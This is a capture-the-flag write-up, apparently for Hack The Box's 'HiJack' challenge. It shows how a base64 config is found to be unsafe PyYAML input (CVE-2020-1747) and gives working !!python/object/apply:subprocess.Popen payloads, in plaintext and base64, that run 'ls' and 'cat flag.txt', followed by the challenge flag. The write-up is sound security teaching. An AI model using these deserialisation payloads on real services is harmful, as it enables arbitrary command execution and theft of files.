




# HiJack

Connecting to the server using netcat gives us 3 options to choose from: `[1] Create config`, `[2] Load config`, and `[3] Exit`.  When choosing to create a config we get various parameters to fill in and the server responds with a base64 encoded config and a message `Uploading to ship...`



Decoding the base64 config we see `!!python/object:__main__.Config {IR_spectrometer_temp: '5050', auto_calibration: 'OFF',
  propulsion_temp: '5050', solar_array_temp: '5050', units: K}`



What stands out in this decode is the `!!python/object:__main__.Config` portion.  If we research python config we can narrow our search down to CVE 2020-1747 which allows arbitrary code execution.  

Source: https://nvd.nist.gov/vuln/detail/CVE-2020-1747

Taking a shot in the dark that this is a YAML config we can then start to look for PyYaml proof-of-concepts like this: https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization.  In this article it references the use of a python deserialization attack payload generator which allows the abuse of Pickle, PyYAML, jsonpickle, and ruamel.yaml services.

Downloading and installing all dependencies, we can create a test config that will list the files in the current directory the service is running using the command `ls`.  Doing so shows us that `flag.txt` and `hijack.py` are in the current directory.

Base64 config `ls` payload:
`ISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuUG9wZW4KLSAhIXB5dGhvbi90dXBsZQogIC0gbHMK`

Plaintext config payload:

```
!!python/object/apply:subprocess.Popen
- !!python/tuple
  - ls
```



Knowing the flag.txt file is in the same dir we can adjust the payload to read the flag.txt file utilizing the `cat` command.

Base64 config `cat` payload:
`ISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuUG9wZW4KLSAhIXB5dGhvbi90dXBsZQogIC0gY2F0CiAgLSBmbGFnLnR4dAo=`

Plaintext config payload:
```
!!python/object/apply:subprocess.Popen
- !!python/tuple
  - cat
  - flag.txt
```



___________________

# Flag
`HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}`